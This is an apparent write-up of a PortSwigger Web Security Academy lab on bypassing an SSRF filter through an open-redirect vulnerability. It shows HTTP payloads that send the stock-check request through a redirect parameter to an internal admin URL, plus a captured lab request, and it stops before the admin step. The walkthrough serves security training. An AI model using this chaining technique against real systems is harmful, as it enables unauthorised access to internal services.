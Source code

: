 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8f6cec54-dd55-49c7-be13-b836281b3ae0)


## Overview:

If the API used to make the back-end HTTP request supports redirections, you can construct a URL that satisfies the filter and results in a redirected request to the desired back-end target.

Suppose the application contains an open redirection vulnerability in which the following URL:

```http
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
returns a redirection to:

```http
http://evil-user.net
```

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

> The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.



## Solution :


### Finding a openredirect vuln -

In this lab, below the **check-stock** feature we have 2 new options which is `Return to list` & `Next product`. It is a good indication that there might be a redirection happening to some other page.

Clicking on `Next product` , our browser sends a *GET* request as below

```http
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/2
Host: 0ada005b04660d8a820bf38e00030012.web-security-academy.net
Cookie: session=tCPCfXrz8JKmh5Pm8VORG7tKUvRB3Zbn; session=IQ2nI1FTVgV2PFdQP0KQmVYXogYiya4h
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ada005b04660d8a820bf38e00030012.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
We can see that there is a `path=` parameter which redirects to */products* page.

Let's try to test if there is **openredirect vulnerability** in this path parameter by trying to access localhost.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bb5eee53-38e6-437b-9c27-274c51b18490)

We get a `302 Redirect` which confirms the openredirect vulnerability.

Now we can try to access the /admin .



























